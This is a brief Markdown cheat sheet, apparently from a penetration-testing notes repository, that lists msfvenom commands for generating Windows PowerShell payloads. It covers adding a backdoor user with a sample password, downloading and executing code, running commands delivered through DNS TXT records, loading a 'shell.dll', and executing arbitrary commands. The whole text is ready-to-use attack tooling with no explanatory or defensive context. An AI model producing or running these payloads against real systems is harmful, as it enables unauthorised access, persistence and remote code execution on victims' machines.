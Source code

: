 # Exec Payloads

## Add User

`$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw`

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec -f raw`

## Download and Execute

`$ msfvenom -p cmd/windows/powershell/download_exec`

## DNS TXT Query Exec

`$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>`

## Execute

`$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>`

`$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>`

`$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>`

### Text-To-Speech

- **Windows**

`$ msfvenom -p cmd/windows/powershell/speak_pwned`